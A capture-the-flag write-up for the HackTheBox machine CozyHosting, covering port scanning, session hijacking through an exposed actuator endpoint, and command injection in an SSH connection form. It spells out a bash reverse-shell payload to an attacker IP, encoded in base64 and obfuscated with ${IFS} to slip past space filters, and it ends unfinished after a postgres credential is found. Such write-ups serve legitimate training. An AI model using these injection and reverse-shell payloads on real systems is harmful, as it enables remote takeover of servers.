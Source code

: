 # CozyHosting
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fa4c16d1-f3fe-47c6-810f-466d37c566a6)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.230 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 22:59 PDT
Nmap scan report for 10.10.11.230
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.72 seconds
```

1. Based from the nmap results, the machine runs a webapp and opens ssh logins.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd9b7161-dbf0-4b00-b073-ef80301da3e2)


2. The wappalyzer itself shows us minimum info (for version).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1850a964-0b31-4a53-961a-1beee364802c)


3. Hence i ran dirsearch to list all directories or files available for this webapp.

> RESULTS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5697fb2f-fb43-476f-8efc-705146d76b30)


4. `admin` page and `actuator` directory should be our interest here.
5. Opens `actuator/sessions` shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/617cbf55-e5f0-470d-a54c-53965f5817bb)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e95e9939-f036-4f73-af4a-6a7330e23f2c)


6. Noticed there's a user session with name `kanderson` (Informatin Disclosure).
7. Let's change our session to kanderson's, then refresh the page.

 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a7c8c241-4cfa-4d95-a058-7c0bdd8b7d4f)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fac50408-3393-41e8-8df3-b4d2f3cf9604)


8. Scrolling down you shall see an input box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dbbc52af-baf7-45d6-9dd8-036986c88b27)


9. This should be our interest. To identify what's the vuln, let's capture the request we send using burpsuite.
10. Let's just fill the hostname with our tun0 interface and leave username empty, we just want to know what response might the server give.

> IN BURPSUITE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c2035f5f-dcc6-41f9-9f08-2a892ecfe5ba)


11. Noticed the server responds an error for the ssh command.
12. This make it clear, that the vuln should be related to command injection.
13. The idea is using basic bash reverse shell payload:

> BASH REVERSE SHELL PAYLOAD

```txt
bash -i >& /dev/tcp/10.10.16.14/1337 0>&1
```

> ENCODE IT TO BASE64 (adding -w 0, to make sure the output is a single line command)

```
echo "bash -i >& /dev/tcp/10.10.16.14/1337 0>&1" | base64 -w 0
```

> RESULT

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK
```

14. Great! Now for the final payload, because we want the server to decode our payload first then execute it, hence we use `base64 -d`.
15. But again, we need to encode it again with `url-encode` to terminate all the spaces.
16. The best practice is to use --> `${IFS%??}` to avoid spaces or other characters that may be treated as delimiters by the shell.
17. Then we url-encode the payload, set listener and send our payload.

> PAYLOAD

```
Original one:

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK" | base64 -d | bash;

Adding ${IFS%??} to covering whitespaces

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

URL-ENCODE:

%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D%2Dd%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d7f115a-0819-4aa5-b627-3d54677ed0cd)


18. At this point we can't get user flag, because we're not having the shell as "josh".

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a925e28b-c55b-4833-b19a-99e927f38459)


19. Noticed there's a .jar file which might be our interest.
20. Let's setup a python server at the remote server and download the file to our local machine.

#### NOTES: setup python server at port other than 80.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b6709ea-e312-4421-8cce-40996c53d1df)


21. Well if you noticed, it failed to download it full.
22. Hmm, confused here, but anyway since we opens python server at port 8000, accessing the remote host with port 8000 shall shown this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0baf88f9-bf8d-49f3-8c81-5a60662244b9)


23. Let's download it manually.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6b219f6-0f33-4010-bc31-003450d26de8)


> DECOMPILING IT WITH JD-GUI

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/017cf7f2-8d89-4797-b0fa-24d2f0c283dd)


24. Interesting, we found a **postgres** cred.
25. 






